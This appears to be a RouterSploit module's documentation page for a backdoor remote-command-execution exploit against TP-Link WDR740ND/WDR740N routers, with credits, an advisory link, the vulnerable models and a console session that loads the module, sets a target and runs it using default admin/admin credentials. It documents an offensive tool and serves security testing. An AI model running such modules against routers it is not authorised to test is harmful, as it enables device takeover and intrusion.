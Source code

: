 # TP-Link WDR740ND & WDR740N Backdoor RCE

## Description
Exploits TP-Link WDR740ND and WDR740N backdoor vulnerability that allows executing commands on operating system level.

## Authors
* websec.ca # vulnerability discovery
* Marcin Bury <marcin.bury[at]reverse-shell.com> # routersploit module

## References
* [http://websec.ca/advisories/view/root-shell-tplink-wdr740](http://websec.ca/advisories/view/root-shell-tplink-wdr740)

## Vulnerable devices
* TP-Link WDR740ND
* TP-Link WDR740N

## Usage
```
rsf > use exploits/tplink/wdr740nd_wdr740n_backdoor
rsf (TP-Link WDR740ND & WDR740N Backdoor RCE) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target address e.g. http://192.168.1.1
   port       80                   Target port


Module options:

   Name         Current settings     Description
   ----         ----------------     -----------
   username     admin                Username to log in with
   password     admin                Password to log in with


rsf (TP-Link WDR740ND & WDR740N Backdoor RCE) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (TP-Link WDR740ND & WDR740N Backdoor RCE) > run
[*] Running module...
```

